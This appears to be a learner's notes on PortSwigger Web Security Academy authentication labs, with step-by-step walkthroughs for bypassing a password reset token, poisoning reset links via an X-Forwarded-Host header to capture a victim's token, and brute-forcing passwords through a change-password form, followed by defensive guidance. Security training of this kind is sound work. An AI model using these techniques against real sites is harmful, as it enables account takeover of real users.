


##### Tutorial

1. Log in with `wiener:peter` and request a password reset for `wiener`; read the reset link from the exploit server's email client.
2. Open the reset form from your own account, then drop the `temp-forgot-password-token` parameter from the URL.
3. With the token removed, submit the form for `carlos` — the server no longer validates the token, so you can set Carlos's password.
4. Log in as `carlos` with the new password and open **My account**.

##### Reference

<details>
<summary>14. Authentication Vulnerabilities - Lab #3 Password reset broken logic | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=GtTk78pyLPI
Purpose: In this video, we cover Lab #3 in the Authentication module of the Web Security Academy. This lab's password reset functionality is vulnerable. To solve the lab, we reset Carlos's password then log in and access his "My account" page.

</details>

<details>
<summary>15. Password reset broken logic — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=zoW8vP26uRU
Purpose: This video shows the lab solution of "Password reset broken logic" from Web Security Academy (Portswigger)

</details>

</details>

### Resetting passwords using a URL - Continued

If the URL in the reset email is generated dynamically, this may also be vulnerable to password reset poisoning. In this case, an attacker can potentially steal another user's token and use it to change their password.

##### Lab: Password reset poisoning via middleware

This lab's password reset functionality is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

<details>
<summary>Lab details, screenshots & walkthrough 0.11</summary>

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

**Screenshots:**


##### Tutorial

1. Log in with `wiener:peter` and request a password reset, capturing the `POST /forgot-password` request in Burp.
2. Add `X-Forwarded-Host: <exploit-server>/exploit` to the request so the reset link points at the exploit server.
3. Carlos carelessly clicks the link; the exploit server's access log captures the request with Carlos's `temp-forgot-password-token`.
4. Use that token to open the reset form, set Carlos's new password, then log in as `carlos` and open **My account**.

##### Reference

<details>
<summary>16. Authentication Vulnerabilities - Lab #11 Password reset poisoning via middleware | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=7_RvLi6fdr0
Purpose: In this video, we cover Lab #11 in the Authentication module of the Web Security Academy. This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, we log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

</details>

<details>
<summary>17. Password reset poisoning via middleware (Video solution, Audio) — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=o1n6EIY-hPw
Purpose: This video shows the lab solution of "Password reset poisoning via middleware" from Web Security Academy (Portswigger)
</details>

</details>

### Changing user passwords

Typically, changing your password involves entering your current password and then the new password twice. These pages fundamentally rely on the same process for checking that usernames and current passwords match as a normal login page does. Thereforce, these pages can be vulnerable to the same techniques.

Password change functionality can be particularly dangerous if it allows an attacker to access it directly without being logged in as the victim user. For example, if the username is provided in a hidden field, an attacker might be able to edit this value in the request to target arbitrary users. This can potentially be exploited to enumerate usernames and brute-force passwords.

##### Lab: Password brute-force via password change

This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the lists of candidate passwords to brute-force Carlos's account and access his "My account" page.

<details>
<summary>Lab details, screenshots & walkthrough 0.12</summary>

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Screenshots:**


##### Tutorial

1. Login with `wiener:peter` and open **My account**. Find the Change password form: `current-password`, `new-password-1`, `new-password-2`.
2. Send the `POST /my-account/change-password` request to Burp Repeater to learn the responses. Submit a **wrong** current password with two **different** new passwords — the response says `Current password is incorrect`. Because the two new passwords differ, the account is **not** locked, so this can be repeated safely.
3. If the current password is **correct** but the two new passwords differ, the response changes to `New passwords do not match`. That difference is the password oracle.
4. Send the request to Burp Intruder, mark only the `current-password` value, choose the **Sniper** attack type, and load the candidate passwords wordlist.
5. Keep `new-password-1` and `new-password-2` as two different static values so the account never locks during the attack.
6. Start the attack and look for the response with an anomalous length — it contains `New passwords do not match`, meaning that payload is the correct current password.
7. Log in as `carlos` with the cracked password and open **My account** to solve the lab.

##### Reference

<details>
<summary>18. Authentication Vulnerabilities - Lab #12 Password brute-force via password change | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=tiIg6mGiTKI
Purpose: This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, we use the list of candidate passwords to brute-force Carlos's account and access his "My account" page.

</details>

<details>
<summary>19. Password bf via password change (Video solution, Audio) — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=UNuSOhgsBh0
Purpose: This video shows the lab solution of "Password bf via password change" from Web Security Academy (Portswigger) 
</details>

</details>

## Preventing attacks on your own authentication mechanisms

We have demonstrated several in which websites can be vulnerable due to how they implement authentication. To reduce the risk of such attacks on your own websites, there are several principles that you should always try to follow.

## Take care with user credentials

Even the most robust authentication mechanisms are ineffective if you unwittingly disclose a valid set of login credentials to an attacker. It should go without saying that you should never send any login data over unencrypted connections. Although you may have implemented HTTPS for your login requests, make sure that you enforce this by redirecting any attempted HTTP requests to HTTPS as well.

You should also audit your website to make sure that no username or email addresses are disclosed either through publicly accessible profiles or reflected in HTTP responses, for example.

## Don't count on users for security

Strict authentication measures often require some additional effort from your users. Human nature makes it all but inevitable that some users will find ways to save themselves this effort. Therefore, you need to enforce secure behaviour wherever possible.

The most obvious example is to implement an effective password policy. Some of the more traditional policies fall down because people crowbar their own predictable passwords into the policy. Instead, it can be more effective to implement a simple password checker of some kind, which allows users to experiment with passwords and provides feedback about their strength in real time. A popular example is the JavaScript library `zxcvbn`, which was developed by DropBox. By only allowing passwords which are rated highly by the password checker, you can enforce the use of secure passwords more effectively than you can with traditional policies.

## Prevent username enumeration

It is considerably for an attacker to break your authentication mechanisms if you reveal that a user exists on the system. There are even certain situastions where, due to the nature of the website, the knowledge that a particular person has an account is sensitive information in itself.

Regardless of whether an attempted username is valid, it is important to use identical, generic error messages, and make sure they really are identical. You should always return the same HTTP status code with each login request and, finally, make the response times in different scenarious as indistinguishable as possible.

## Implement robust brute-force protection

Given how simple constructing a brute-force attack can be, it is vital to ensure that you take steps to prevent, or at least disrupt, any attemps to brute-force logins.

One of the more effective methods is to implement strict, IP-Based user rate limiting. This should involve measures to prevent attackers from manipulating their apparent IP address. Ideally, you should require the user to complete a CAPTCHA test with every login attempt after a certain limit is reached.

Keep in mind that this is not guaranteed to completely eliminate the threat of brute-forcing. However, making the process as tedious and manual as possible increases the likelihood that any would-be attacker gives up and goes in search of a softer target instead.

## Triple-check your verification logic

As demonstrated by our labs, it is easy for simple logic flaws to creep into code which, in the case authentication, have potential to completely compromise your website and users. Auditing any verification or validation logic throughly to eliminate flaws is absolutely key to robuts authentication. A check that can be bypassed is, ultimately, not much better that no check at all.

## Don't forget supplementary functionality

Be sure not to just focus on the central login apges and overlook addtional functionality related to authentication. This is particularly important in cases where the attacker is free to register their own account and explore this functionality. Remember that a password reset or change is just as valid an attack surface as the main login mechanism and, consequently, must be equally as robust.

## Implement proper multi-factor authentication

While multi-factor authentication may not be practical for every website, when done properly it is much more secure than password-based login alone. Remember that verifying multiple instances of the same factor is not true multi-factor authentication. Sending verification codes via email is essentially just a more long-winded form of single-factor authentication.

SMS-based 2FA is technically verifying two factors (Something you know and something you have). However, the potential for abuse through SIM swapping, for example, means that this system can be unreliable.

Ideally, 2FA should be implemented using a dedicated device or app that generates the verification code directly. As they are purpose-built to provide security, these are typically more secure.

Finally, just as with the main authentication logic, make sure that the logic in your 2FA checks is sound so that it cannot be easily bypassed.

## Well done! You've completed Authentication vulnerabilities.

**Authentication Vulnerabilities**

This learning path introduces authentication vulnerabilities, which have a critical impact on security. You have learned how to identify and exploit authentication flaws, bypass common protection measures, and understand essential techniques for securing authentication mechanisms.

[PortSwigger – Authentication Vulnerabilities Learning Path](https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities)

**Status:** Completed ✓